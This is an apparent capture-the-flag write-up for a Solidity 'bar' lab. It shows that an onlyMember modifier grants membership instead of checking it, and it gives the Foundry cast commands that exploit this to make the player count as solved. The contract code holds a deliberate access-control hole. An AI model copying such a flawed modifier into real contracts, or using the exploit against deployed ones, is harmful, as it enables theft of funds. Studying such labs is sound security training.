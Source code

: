 To solve the lab, we need to make *Setup::playerSolved()* return true. Here is the code.
&nbsp;  
&nbsp;  
```solidity
    function solvedByPlayer() public {
    playerSolved = bar.beerGlass(msg.sender) >= 1 ? true : false;
}

function isSolved() public view returns(bool){
    return playerSolved;
}
```
&nbsp;  
We first need to call the *solvedByPLayer()* function, because that function will update the state of the *playerSolved()* bool. After that, we can just simply press the *Flag* button on the instance. Let's first look for a function that will modify *beerGlass*.
&nbsp;  
&nbsp;  
```solidity
function register() public payable isHuman{
    // You can register here, but still need the Onwer to add you in.
    require(msg.value >= 1e18, "Need 1 ether deposit.");
    balance[msg.sender] += msg.value;
}

function addMember(address _addMember) public isHuman onlyOwner(_addMember){
    require(balance[_addMember] > 0, "You need to deposit some money to become a member.");
    barMember[_addMember] = true;
}

function getDrink() public isHuman onlyMember{
    require(balance[msg.sender] > 0, "You need to deposit some money.");
    require(barMember[msg.sender] == true);
    beerGlass[msg.sender]++;
}
```
&nbsp;  
We have some options. There are *register()*, *addMember()*, and *getDrink()*; based on what we need, we have to call *getDrink()*, but there is a modifier called *onlyMember* and *isHuman*, plus we need our balance to be greater than zero. From the function alone, what we can tell is that to become a member, the *owner* must add the member manually by calling the *addMember()*; we can still call *register()* with the value 1 ether. Let's look at the rest of the code now. &nbsp;  
&nbsp;  
```solidity
modifier isHuman(){
    require(msg.sender == tx.origin, "Only Human Allowed in this Bar!");
    _;
}

modifier onlyOwner(address _addMember) {
    require(owner == msg.sender, "Only Owner can add Member!");
    _;
}

modifier onlyMember() {
    barMember[msg.sender] = true;
    _;
}

receive() external payable{
    balance[msg.sender] += msg.value;
}
```
&nbsp;  
There are 3 modifiers that exist in the contract. The *isHuman()* modifier ensures that the *msg.sender* is the same as *tx.origin*, meaning only EOA can interact with the contract. The *onlyOwner()* has 1 parameter, which is *_addMember*. Now *onlyMember()* modifier is quite different than another modifier, instead of ensuring a condition, it actually sets a condition, especially *msg.sender*; it sets the *barMember[msg.sender]* to become true, this is clearly a flaw by the developer. &nbsp;  
&nbsp;  
Earlier we knew that the *getDrink()* function used this modifier. This means what left now is giving ourselves some balance either by calling the *register()* function or directly sending the contract some balance because it has *receive() external payable* defined there and directly adds the amount to our balance. Okay then, the solution should be &nbsp;  
&nbsp;  
```bash
// get the bar contract address
cast call -r $RPC_URL $SETUP_ADDR "bar()"

// send some money to the contract
cast send -r $RPC_URL --private-key $PK $BAR_ADDR --value 1ether

// get ourselves some drink
cast send -r $RPC_URL --private-key $PK $BAR_ADDR "getDrink()"

// call setup.sol::solvedByPlayer()
cast send -r $RPC_URL --private-key $PK $SETUP_ADDR "solvedByPlayer()"
```
&nbsp;  
After that we just need to click Flag, and we should've solved the lab.